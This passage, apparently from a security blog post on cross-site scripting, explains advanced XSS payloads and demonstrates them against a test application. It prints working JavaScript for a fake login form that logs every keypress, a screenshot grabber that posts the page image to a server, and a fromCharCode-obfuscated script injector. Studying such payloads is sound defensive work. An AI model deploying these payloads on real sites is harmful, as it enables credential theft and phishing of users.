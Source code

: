 ```javascript
var dummyFormHtml = 'We\'ve had reports of bad guys trying to do wrong by ' +
                    'our users lately - help us, help you, by logging in ' +
                    'again to confirm your identity<br><input type="text" />' +
                    '<br><input type="password" /><br><input type="submit" value="Login" />'

document.body.innerHTML = dummyFormHtml

document.addEventListener('keypress', function (event) {
  var xhr = new XMLHttpRequest()
  xhr.open('POST', '/keylogger')
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  xhr.send('data=' + event.key)
})
```

By making this change, the `body` element of the page will be overwritten and the user will be presented with a login form which will log all key presses:

![]({{ site.baseurl }}/assets/img/2018-12-18-a-deeper-look-into-xss-payloads/dom-manipulation.png)

Although this example is [intentionally] very simple, an attacker could create a 1:1 copy of the website's login page and produce a very convincing attack. After all, if a user can see they are on the correct domain, they are unlikely to question how the login page was displayed.

DOM manipulation doesn't necessarily end here, either. It can be used to employ sophisticated social engineering attacks. If DOM manipulation was utilised to render a notice to a user informing them that they need to contact customer support ASAP on a specific number - the end user may not question what they are seeing given the notice is being displayed on the website. Should they then follow through with calling the number, they could be exposed to willingly handing over highly sensitive information such as credit card numbers.

### A Picture Speaks a Thousand Words
The capabilities of modern day browsers far exceed those of the time in which cross-site scripting became an issue. In line with that progression, the functional possibilities of XSS payloads have also progressed. Using newer functionality, an attacker can go as far as exfiltrating screenshots of the user's current browser view.

By utilising the [html2canvas](https://html2canvas.hertzen.com/) library, a screenshot can be taken and sent back to an attacker controlled server in just 6 lines of JavaScript:

```javascript
html2canvas(document.querySelector("body")).then(canvas => {
  var xhr = new XMLHttpRequest()
  xhr.open('POST', '/screenshot')
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  xhr.send('data=' + encodeURIComponent(canvas.toDataURL()))
});
```

By submitting the following payload to our test application, a screenshot of the page containing the usage information and the injected image was sent back to the server and saved to a file:

```html
<img src="/media/hack-the-planet.jpg" onload=eval(String.fromCharCode(115,101,116,84,105,109,101,111,117,116,40,102,117,110,99,116,105,111,110,40,41,123,118,97,114,32,100,61,100,111,99,117,109,101,110,116,59,118,97,114,32,97,61,100,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,97,46,115,101,116,65,116,116,114,105,98,117,116,101,40,39,115,114,99,39,44,39,47,115,99,114,105,112,116,115,47,115,99,114,101,101,110,115,104,111,116,46,106,115,39,41,59,100,46,104,101,97,100,46,97,112,112,101,110,100,67,104,105,108,100,40,97,41,59,125,44,49,48,48,48,41)) />
```
